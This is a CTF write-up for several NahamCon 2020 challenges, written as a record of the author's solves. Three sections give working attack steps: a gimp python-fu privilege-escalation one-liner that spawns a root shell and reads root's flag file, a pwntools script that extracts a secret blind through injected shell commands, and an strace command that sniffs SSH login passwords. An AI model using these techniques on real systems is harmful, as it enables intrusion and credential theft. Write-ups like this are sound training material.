 # NahamCon CTF 2020

## The Scraps

I rarely do write-ups for small 1-2 line solves, but then all that history gets lost and is hard to find later when I need it, so, here's a rundown of some of the easy ones, you know, for the points.

> All I could find, post CTF on my <strike>HD</strike> SSD.


### Glimpse

```
125

There's not a lot to work with on this server. But there is something...

Connect here:
ssh -p 50027 user@jh2i.com # password is 'userpass'
```

Google for GTFOBins:

```bash
$ gimp -idf --batch-interpreter=python-fu-eval -b 'import os; os.execl("/bin/sh", "sh", "-p")'
(gimp:25615): GLib-GObject-WARNING **: 18:26:38.010: g_object_set_is_valid_property: object class 'GeglConfig' has no property named 'cache-size'
Failed to parse tag cache: No such file or directory
GIMP-Error: Could not open '/home/user/.gimp-2.8/pluginrc' for writing: Read-only file system
GIMP-Warning: Unable to open a test swap file.
To avoid data loss, please check the location and permissions of the swap directory defined in your Preferences (currently "/home/user/.gimp-2.8").
# cd /root
# ls -l
total 4
-r-------- 1 root root 44 Jun  4 18:53 flag.txt
# cat flag.txt
flag{just_need_a_glimpse_of_the_flag_please}
```

### Awkward

```
125

No output..? Awk-o-taco.

Connect here:
nc jh2i.com 50025
```

Using exit codes to leak info.  Ok, more than 1-2 lines, but still easy, and will never use again:

```python
#!/usr/bin/python3

from pwn import *

p = remote('jh2i.com', 50025)
s = 'cat $(find . -name flag.txt) | grep flag{'
dots = 0

while True:
    ss = s + dots * '.'
    ss += '}'
    p.sendline(ss)
    _ = p.recvline().strip()
    if _[0] == ord('0'):
        break
    dots += 1

print('flag length',dots)
letters = '_abcdefghijklmnopqrstuvwxyz-0123456789@ABCDEFGHIJKLMNOPQRSTUVWXYZ.'

for i in range(dots):
    for j in letters:
        ss = s + j
        p.sendline(ss)
        _ = p.recvline().strip()
        if _[0] == ord('0'):
            s += j
            print('flag',s)
            break

print('flag',s + '}')
```


### SSH Logger

```
175

Someone keeps logging in to this server... can you find their password?

Connect here:
ssh -p 50029 root@jh2i.com # password is 'root'
```

Oldskool, Google for _how to read ssh passwords with strace_:

```bash
# strace -f -p 1 2>&1 | grep read | grep flag
[pid 24395] read(6, "\10\0\0\0\4flag", 9) = 9
[pid 24395] read(6, "\f\0\0\0\33flag{okay_so_that_was_cool}", 32) = 32
```


### Beep Boop

```
50

That must be a really long phone number... right?

Download the file below.
```

I love DTMF.  It is [central to hacker history](https://www.amazon.com/gp/product/080212061X).  It is completely useless to have in CTFs, but it is [important hacker history](https://www.amazon.com/gp/product/080212061X), and I welcome any retro challenge.

> If you didn't get the hint, read this [book](https://www.amazon.com/gp/product/080212061X)!

Get a Ubuntu 16.04 container for this:

```bash
# multimon -a DTMF -t wav flag.wav | grep DTMF: | awk '{print $NF}' | xargs | sed 's/ //g'
46327402297754110981468069185383422945309689772058551073955248013949155635325
# python3
>>> bytes.fromhex(hex(46327402297754110981468069185383422945309689772058551073955248013949155635325)[2:])
b'flag{do_you_speak_the_beep_boop}'
```


### Big Bird

```
100

Big Bird is communicating with us in a whole new way! But... how?

Connect here:
https://twitter.com/BigBird01558595
```

_Groan_

2-liner:

```bash
GetOldTweets3 --username "BigBird01558595" --maxtweets 1000
zbarimg <(cat output_got.csv | awk -F, '{print $7}' | awk -F\" '{print $2}' | awk -F\# '{print $2}' | sort -n | awk '{print $NF}' | xargs printf "%02x" | xxd -r -p) 2>&1 | grep QR | awk -F: '{print $NF}'
flag{big_bird_tweets_big_tweets}
```

At least I learned about `GetOldTweets3`.
